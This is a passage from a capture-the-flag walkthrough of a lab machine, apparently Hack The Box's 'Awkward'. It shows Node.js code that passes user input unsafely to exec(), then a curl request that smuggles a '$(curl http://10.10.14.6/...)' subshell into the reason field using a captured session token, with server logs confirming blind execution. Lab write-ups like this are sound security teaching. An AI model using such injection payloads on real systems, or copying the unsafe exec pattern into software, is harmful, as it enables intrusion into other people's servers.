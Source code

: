 With the checks on `reason`, `start`, and `end` removed, the vulnerable code
is:

    
    
      const finalEntry = user + "," + reason + "," + start + "," + end + ",Pending\r"
    
      exec(`echo "${finalEntry}" >> /var/www/private/leave_requests.csv`, (error, stdout, stderr) => {
    

Because it’s being passed to `exec`, and because the stuff being `echo`ed is
in `"` and not `'`, a subshell (`$( )`) will work nicely here. The execution
will be blind to me, as the output goes into the `leave_requests.csv` file.
I’ll use `curl` to connect back. I’ve written a dummy text file to `test` and
served it with `python -m http.server`.

I’ll need a valid token, or I won’t reach the vulnerable code:

    
    
    oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/test)", "start": "today", "end": "tomorrow"}'
    Invalid user
    

I’ll grab a token from a logged in session. Running now returns success:

    
    
    oxdf@hacky$ token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc2NTU4MjMzfQ.fXwdefR-bakjLwjeO2BnDnoMXz2mWxN2rkkYusR8svk
    oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/test)", "start": "today", "end": "tomorrow"}' -b "token=$token"
    Successfully added new leave request
    

There is also a request at my webserver:

    
    
    10.10.11.185 - - [17/Feb/2023 12:15:16] "GET /test HTTP/1.1" 200 -
    

With the root shell, I can even see the results in `leave_requests.cvs`:

    
    
    root@awkward:/var/www/private# cat leave_requests.csv 
    Leave Request Database,,,,
    ,,,,
    HR System Username,Reason,Start Date,End Date,Approved
    bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
    christine.wool,Need a break from Jackson,14/03/2022,21/03/2022,Yes
    jackson.lightheart,Great uncle's goldfish funeral + ceremony,10/05/2022,10/06/2022,No
    jackson.lightheart,Vegemite eating competition,12/12/2022,22/12/2022,No
    christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
    christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes
    bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
    christopher.jones,0xdf was here!,today,tomorrow,Pending
    

“0xdf was here!” is the contents of `test`.

#### Shell
